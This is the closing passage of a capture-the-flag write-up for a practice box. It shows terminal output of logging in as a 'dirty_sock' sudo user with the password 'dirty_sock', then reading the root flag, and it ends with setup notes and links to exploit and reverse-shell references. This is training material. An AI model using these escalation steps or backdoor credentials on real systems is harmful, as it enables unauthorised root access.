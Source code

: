 ```
www-data@petshop:/var/www/monitorr$ su dirty_sock
su dirty_sock
Password: dirty_sock

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/var/www/monitorr$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)

```

Yes we did.

```
dirty_sock@petshop:/$ sudo ls /root
sudo ls /root
root.txt  snap
dirty_sock@petshop:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
THM{YjM***************************NTMx}
```

# Foreword

After getting the sudoer account or by looking at the linPEAS output we can have some insights on how the box was set up. 

* SSH I've tried to get into with brute force - this is `ssh-honeypot` - https://github.com/droberson/ssh-honeypot
* the `/business` directory that asked for the credentials on the `:443` - is empty
* also that `:8000` or `dev` site serve no purpose - I didn't find that ID the site was talking to

# Additonal readings

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Jellyfin Web Github](https://github.com/jellyfin/jellyfin-web)
* [Monitorr Github](https://github.com/Monitorr/Monitorr)
* [John Hammond's walkthrough](https://www.youtube.com/watch?v=g2CnIgjHeX8)
* [MuirlandOracle (author) write-up](https://muirlandoracle.co.uk/2021/04/15/year-of-the-jellyfish-write-up/)
* [File Upload @ Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [Authorization Bypass and Remote Code Execution in Monitorr 1.7.6](https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/)
* [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [ssh-honeypot](https://github.com/droberson/ssh-honeypot)
* [Privilege Escalation in Ubuntu Linux (dirty_sock exploit)](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)
